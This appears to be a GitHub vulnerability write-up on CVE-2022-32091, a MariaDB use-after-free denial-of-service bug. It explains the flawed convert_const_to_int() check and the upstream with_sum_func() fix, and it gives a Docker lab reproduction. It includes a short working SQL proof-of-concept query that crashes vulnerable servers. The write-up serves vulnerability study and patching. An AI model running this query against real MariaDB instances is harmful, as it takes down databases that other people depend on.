



# CVE-2022-32091 CWE-416 MariaDB DoS via UAF

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- **CWE-416 (Use After Free):** refers to a vulnerability in software that uses already freed memory regions. When the program dynamically allocated memory is released, if the pointer to that memory is not set to invalid (such as NULL), subsequent code may still access the pointer incorrectly. At this point, the memory may have been reallocated for other uses, leading to unpredictable behaviors such as data corruption, program crashes, or code execution. This vulnerability usually stems from improper memory management and is a serious security issue, making it easy for attackers to exploit to undermine program stability and security.

## Vulnerability Mechanism
 MariaDB's expression optimization function `convert_const_to_int()` during the semantic analysis phase did not properly handle constant expressions containing aggregation functions, resulting in insufficient allocation of memory structures (such as JOIN_TAB) when query plans are generated. During execution, aggregation logic accesses unallocated memory regions based on incorrect expression flags, triggering `__interceptor_memset`'s use-after-poison error and ultimately causing the program to crash.

## Vulnerability Location
Analysis of MariaDB 10.6.3:

In the sql\item_cmpfunc.cc file, line 303 `convert_const_to_int` function is used to convert constant expressions into integer types during the query optimization process in the MySQL database.

The **321** line has a condition: if `item` can be evaluated during the optimization phase (`can_eval_in_optimize()` returns `true`), subsequent constant optimization is performed. However, here it only checks whether expression `(*item)` can be computed during the optimization phase, but it **does not check** whether the expression contains **aggregation functions** (such as `AVG`, `SUM`). This is where the **vulnerability** lies.

When encountering special expressions like `COLLATION(AVG('x'))`, although their value is constant, they are essentially part of an aggregated query. Unfixed code will mistakenly optimize it, breaking the internal state consistency of the query optimizer and ultimately causing memory allocation errors and server crashes in subsequent processing workflows.

```cpp
// sql\item_cmpfunc.cc 
// 321 lines ********** checked whether expressions could be computed during the optimization phase ********** Vulnerability points****************************
if ((*item)->can_eval_in_optimize())
  {
    TABLE *table= field->table;
    MY_BITMAP *old_maps[2] = { NULL, NULL };
    ulonglong UNINIT_VAR(orig_field_val); /* original field value if valid */
    bool save_field_value;

    /* table->read_set may not be set if we come here from a CREATE TABLE */
    if (table && table->read_set)
      dbug_tmp_use_all_columns(table, old_maps,
                               &table->read_set, &table->write_set);
	// ... ...
}
```

## Remediation
Add a statement to the conditional statement, and **only when the expression does not contain aggregation functions** can constant optimization continue. `with_sum_func()` will return `true` If the expression contains an aggregator flag, `!` inverted will make the entire `if` false, thus bypassing dangerous optimization code blocks.

```cpp
 /*
    Replace (*item) with its value if the item can be computed.

    Do not replace items that contain aggregate functions:
    There can be such items that are constants, e.g. COLLATION(AVG(123)),
    but this function is called at Name Resolution phase.
    Removing aggregate functions may confuse query plan generation code, e.g.
    the optimizer might conclude that the query doesn't need to do grouping
    at all.
  */
  if ((*item)->can_eval_in_optimize() &&
      // Key Modification ********* Added Check for Inclusion of Aggregation Functions *************
      !(*item)->with_sum_func())
```

## Affected Versions
**Affected version:** MariaDB:

- 10.3.0 to 10.3.35
- 10.4.0 to 10.4.25
- 10.5.0 to 10.5.16
- 10.6.0 to 10.6.8
- 10.7.0 to 10.7.5
- 10.8.0 to 10.8.4
- 10.9.0 to 10.9.2

## Environment Setup
Starting the Docker environment, MariaDB version is 10.6.3, administrator is root user, password is 12345, there is a database test_db, open port 3306, and the container contains PoC file CVE-2022-32091-PoC.sql.

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2022-32091-PoC.sql, and you will see that an error has occurred and the container automatically closes

```sql
source CVE-2022-32091-PoC.sql
```



4. Review the MariaDB crash log, where UAF occurred causing DoS, and the problem lies within the `__interceptor_memset`, corresponding to the vulnerability principle.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
-- Create table t1, containing a BIGINT-type column of a, followed by a subquery to provide initial data for table t1
-- The values in column a are 1 and 0 (false conversion)
CREATE TABLE t1 (a BIGINT) AS 
	-- Returns a result set with value 1, aliased v3
	SELECT 1 AS v3 
		-- Merge the two result sets before and after
		UNION 
			-- Returns a result set with the value FALSE
			SELECT FALSE ;
		
-- Check whether the value of column a in t1 is in the result set returned by COLLATION(AVG('x')), deduplicate, and return the boolean value
SELECT DISTINCT a IN ( 
    -- Return the proofreading rules for the expression, and the receiving parameter should be a string expression
    COLLATION (
     	-- Calculate the average; x is a string constant converted to 0, resulting in 0
     	AVG ('x')
    )
) FROM t1 ;

```

In the vulnerable version, the query parser identifies `AVG('x')` as a **constant** and prepares to optimize it; On the other hand, the upper-level project representing `COLLATION()` still retains an internal flag denoted as "contains an aggregator." This creates an **inconsistent state**: something treated as a constant while also labeled as an aggregator.

When MariaDB sees a `SELECT DISTINCT`, it needs to deduplicate the results, which activates its complex internal grouping and optimization logic. When the optimizer encounters the "inconsistent" object above, based on the incorrect flag information, it allocates **incorrectly sized memory space** for subsequent operations (creating a temporary table internally to store and handle deduplication results).

When the server writes data to this very small array, a **buffer overflow** occurs, and the data is written to memory regions beyond the array boundary. This buffer overflow happens to cover the **metadata** of another unrelated object (such as the `Duplicate_weedout_picker` object we see in the log), including pointers (vptr) to its **virtual function table (vtable)**.

## References
[NVD - CVE-2022-32091](https://nvd.nist.gov/vuln/detail/CVE-2022-32091)

[[MDEV-23809\] Server crash in JOIN_CACHE::free or in copy_fields, ASAN use-after-poison in JOIN::make_aggr_tables_info - Jira](https://jira.mariadb.org/browse/MDEV-23809)

[MDEV-23809: Server crash in JOIN_CACHE::free or ... ·  MariaDB/server@2cd98c9](https://github.com/MariaDB/server/commit/2cd98c95dee7ae77e6280b4e047a2ebec00b5442#diff-1d0eeab9c76ca431af1f61a23ffd0cb93f4a38709e16005c0aa636ec9a6c313d)

[server/sql/item_cmpfunc.cc at mariadb-10.6.9 · MariaDB/server](https://github.com/MariaDB/server/blob/mariadb-10.6.9/sql/item_cmpfunc.cc)
